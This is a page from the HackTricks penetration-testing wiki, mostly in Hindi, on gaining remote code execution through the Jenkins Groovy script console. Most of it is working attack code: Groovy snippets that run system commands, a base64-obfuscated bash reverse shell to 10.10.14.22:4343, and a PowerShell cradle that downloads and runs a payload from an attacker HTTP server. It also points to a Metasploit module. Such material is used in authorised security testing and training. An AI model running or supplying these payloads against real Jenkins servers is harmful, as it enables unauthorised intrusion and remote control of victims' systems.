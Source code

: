 # Jenkins RCE with Groovy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Jenkins RCE with Groovy Script

यह जेनकिंस में एक नया प्रोजेक्ट बनाने की तुलना में कम शोर करता है

1. _path\_jenkins/script_ पर जाएं
2. टेक्स्ट बॉक्स के अंदर स्क्रिप्ट डालें
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
आप एक कमांड का उपयोग करके निष्पादित कर सकते हैं: `cmd.exe /c dir`

**लिनक्स** में आप कर सकते हैं: **`"ls /".execute().text`**

यदि आपको टेक्स्ट के अंदर _कोट्स_ और _सिंगल कोट्स_ का उपयोग करने की आवश्यकता है। आप _"""PAYLOAD"""_ (ट्रिपल डबल कोट्स) का उपयोग करके पेलोड को निष्पादित कर सकते हैं।

**एक और उपयोगी ग्रोवी स्क्रिप्ट** है (स्थानापन्न \[INSERT COMMAND]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### लिनक्स में रिवर्स शेल
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Windows में रिवर्स शेल

आप एक PS रिवर्स शेल के साथ HTTP सर्वर तैयार कर सकते हैं और इसे डाउनलोड और निष्पादित करने के लिए Jeking का उपयोग कर सकते हैं:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Script

आप इस प्रक्रिया को [**इस स्क्रिप्ट**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py) के साथ स्वचालित कर सकते हैं।

आप रिवर्स शेल प्राप्त करने के लिए MSF का उपयोग कर सकते हैं:
```
msf> use exploit/multi/http/jenkins_script_console
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
